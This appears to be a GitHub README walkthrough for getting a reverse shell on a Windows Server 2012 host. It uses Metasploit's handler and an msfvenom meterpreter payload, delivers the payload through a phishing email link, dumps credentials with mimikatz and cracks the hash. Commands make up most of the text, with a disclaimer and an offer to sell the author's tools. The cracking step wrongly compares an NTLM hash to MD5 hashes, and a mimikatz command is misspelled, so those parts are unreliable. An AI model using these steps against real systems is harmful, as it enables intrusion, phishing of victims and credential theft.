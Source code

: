 ![image](https://user-images.githubusercontent.com/101802030/225642283-5574f2d4-dca9-4769-9fb3-b5c3181bd344.png)


# theperfectreverseshell
This is a demonstration of obtaining a reverse shell on a Windows 2012 Server. The aim of obtaining access is to view and copy the output produced by downloading certain tools to the compromised host and then run a script to compare the produced data against a pre-defined list of data

### The following steps are provided to obtain a reverse shell on a Windows 2012 Server. The steps performed, were carried out in a secure environment. Please ensure, if you do choose to replicate this activity that you either do so as qualified practitioner or that you have a qualified practitioner with you.

# Step 1 : Create a reverse handler using metasploit. To do so, you run the following commands -
  - 1 - sudo msfconsole <br>
  - 2 - use multi/handler <br>
  - 3 - configure payload (preferable : windows/meterpreter/rerverse_tcp) <br>
  - 4 - ensure that the "LHOST" and "LPORT" settings are correctly configured. You may do so, by running : set LHOST <IP Address of Host> and the set LPORT <port you would like to listen on> <br>
  - 5 - once this has been completed, you may run : run -j or exploit -j at the msf prompt. This will create a persistent listener that will exit once you tell it to, it a disconnect from the client(victim). After doing so, you should see the following screen : <br>
  
  ![image](https://user-images.githubusercontent.com/101802030/225851486-2fa0062f-5b31-435c-8b7d-9b492d37a588.png)
  
  # Step 2 : Create an exploit using msfvenom. To do so, you run the following command -
  - 1 - sudo msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=8888 -f exe -o ~/Downloads/my_new_exploit.exe
  - And you should see the following output :
  
  ![image](https://user-images.githubusercontent.com/101802030/225945823-7e83ae7e-f211-4359-8b63-a72db0f21506.png)
  
  # Step 3 : Infect the victim machine with the exploit. In this case it will be a Windows Server 2012 edition. To do so, you may perform the following steps -
  - 1 - Host the exploit on a webserver, preferrably Linux. 
  - 2 - Create an e-mail containing a url link to the exploit
  - 3 - Send email to victim machine and have the link clicked on and run the executable. You should see the following screen on your server and/or C2
  
  ![image](https://user-images.githubusercontent.com/101802030/225951348-ec303cc6-1302-4ce9-bb98-a8710cf28dc6.png)
  
  # Step 4 : Download mimikatz and obtain ntlm hash. To do so, you use the following steps -
  - 1 - In your meterpreter session, type upload and the location of the file you would like to upload. In this case, it will be mimikatz. It could be a good idea to place it in your web servers root directory. See below example screenshot of this step being performed :
  
  ![image](https://user-images.githubusercontent.com/101802030/225954841-e3218cfe-4182-4a50-9935-e6114c380d5b.png)
  
  # Step 5 : Navigate to the infected hosts directory where you uploaded mimikatz to, in the previous step, and do the following -
  - 1 - Run mimikatz, by simply typing mimikatz.exe. Don't use tab(ever!). This should display the mimikatz console.
  - 2 - In order to obtain the ntlm hash, run the following command :
  - 2.1 - privilege::debug
  - 2.2 - sekurlsa::lognoPasswords
  - You should then see the following screen :
  
  ![image](https://user-images.githubusercontent.com/101802030/225957540-0887f031-02b4-44da-8a83-fac4887ce0cf.png)
  
  - 3 - Scroll down until you see the following output, and copy the ntlm hash -
  
  ![image](https://user-images.githubusercontent.com/101802030/225959132-c3beb498-afb0-499f-80bf-5e7d08f1646e.png)
  
  # Step 6 : Compare the ntlm hash against a list of words that have been converted to md5 hashes -
  - 1 - Create a script to compare the hashes. I used C# to create one. This would mean that, you will need a Windows computer to successfully perform this step. 
  - Please note : You may create a script in any language of your choice, python would be ideal, since it is very user-friendly. You will also need a list a of words converted to md5 hashes saved as a .txt file. The command would be as follows :
  - 2 - hashmatcher.exe <ntlm hash> <hash_word_file.txt>
  
  - See screenshot below, of the comparison being performed. Enjoy!
  
  ![image](https://user-images.githubusercontent.com/101802030/225962918-b259f5f7-dcaf-4053-bc15-9f43ae23af59.png)
  
  - As you can see, the program I have created in this case, is called hashmatcher. Unfortunately it is not publicly available, however I am upon to discussing acquiring the software at a minimal cost. Preferrably in Indian rupees.
  
  - It would be important to note, that in creating the wordlist of md5 hashes, it would be best to ensure that the word is next to the hash when looking for which word it is, after you have found a match. To do so, you can create a script or a program. I used python. Again, this software is not publicly available but can be acquired at a small cost. See example list below :
  
  ![image](https://user-images.githubusercontent.com/101802030/225966196-e8fbf262-21d3-445c-a3c5-57aeab8c5b8a.png)

  
  
  Disclaimer : All activities showcased are performed within the confines of legal law. Please ensure that these steps are only carried out on authorized hosts or within a home environment.








  
  


